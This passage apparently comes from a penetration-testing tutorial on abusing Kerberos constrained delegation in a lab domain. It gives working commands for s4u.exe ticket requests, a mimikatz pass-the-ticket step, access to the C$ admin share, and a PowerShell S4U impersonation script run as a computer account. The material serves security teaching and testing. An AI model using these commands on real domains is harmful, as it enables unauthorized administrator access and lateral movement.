 `s4u.exe /tgt:sqlservice.kirbi /user:Administrator@testlab.local /service:cifs/PRIMARY.testlab.local`

`mimikatz.exe "kerberos:ptt" "cifs.PRIMARY.testlab.local.kirbi" "exit"`

Finally, access the target as the Admin: `dir \\PRIMARY.testlab.local\C$`

**Scenario 2 - Same as 1, but with a computer account**

Get SYSTEM and take on the privileges of the computer account.

```
# load the necessary assembly
$Null = [Reflection.Assembly]::LoadWithPartialName('System.IdentityModel')
 
# execute S4U2Self w/ WindowsIdentity to request a forwardable TGS for the specified user
$Ident = New-Object System.Security.Principal.WindowsIdentity @('Administrator@TESTLAB.LOCAL')
 
# actually impersonate the next context
$Context = $Ident.Impersonate()
 
# implicitly invoke S4U2Proxy with the specified action
ls \\PRIMARY.TESTLAB.LOCAL\C$
 
# undo the impersonation context
$Context.Undo()
```

